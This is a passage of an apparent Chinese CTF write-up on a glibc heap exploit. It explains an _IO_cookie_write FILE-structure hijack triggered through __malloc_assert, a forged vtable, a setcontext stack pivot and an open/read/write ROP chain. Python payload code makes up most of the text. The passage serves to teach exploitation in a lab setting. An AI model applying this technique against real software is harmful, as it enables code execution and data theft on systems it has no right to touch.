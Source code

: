 进入`__malloc_assert`后，利用`__malloc_assert -> __fxprintf -> __vfxprintf -> locked_vfxprintf -> __vfprintf_internal -> _IO_new_file_xsputn ( => _IO_cookie_write)`调用链

需要满足`_IO_write_ptr > _IO_write_base`，且`_lock`指向可写地址，此处直接使用原地址`_IO_stdfile_2_lock`

`vtable`需要伪造，触发IO时，原本指向`_IO_file_jumps -> __xsputn`，即`<__GI__IO_file_jumps+56>`，需要伪造为`_IO_cookie_jumps-> __write`，即`<_IO_cookie_jumps+120>`，故此处填上`_IO_cookie_jumps+0x40`

构造`__cookie`为chunk 0的地址，注意为了方便更改，地址加上0x10，之后chunk 0的用户地址会进入`rdi`

构造`cookie_write_function_t *write`处指针为gadget地址，调用时直接运行gadget，此处有加密

### rdi -> rdx

```python
#rdi->rdx
payload = p64(0)#rdi
payload += p64(heap_base + 0x1120+0x10)#rdx->chunk 5
edit(0,0x10,payload)
sendit()
```

修改chunk 0，使rdx指向chunk5

### 布置rdx附近满足setcontext

```python
#rdx->setcontext
payload = p64(0)*3 + "./flag\x00\x00"
payload += p64(setcontex61)#call [rdx+0x20]
payload = payload.ljust(0x68,"\x00")
payload += p64(heap_base + 0x1120+0x10+0x18)#rdi->./flag
payload += p64(0)#rsi->0
payload = payload.ljust(0x88,"\x00")
payload += p64(0x100)#rdx->0
payload = payload.ljust(0xa0)
payload += p64(heap_base+0x430+0x10)#rsp->chunk 1
payload += p64(ret)#rcx->ret
edit(5,0xb0,payload)
sendit()
```

根据setcontext+61，布置`rdx`周围，使寄存器满足条件

`rsp`指向chunk 1，`rcx`指向ret，将栈迁移到chunk 1上

### orw chain

```python
#orw chain
payload = p64(pop_rax)
payload += p64(2)
payload += p64(syscall)#open
payload += p64(pop_rax)
payload += p64(0)
payload += p64(pop_rdi)
payload += p64(3)
payload += p64(pop_rsi)
payload += p64(heap_base + 0x200)
payload += p64(syscall)#read
payload += p64(pop_rax)
payload += p64(1)
payload += p64(pop_rdi)
payload += p64(1)
payload += p64(pop_rsi)
payload += p64(heap_base + 0x200)
payload += p64(syscall)#write

```
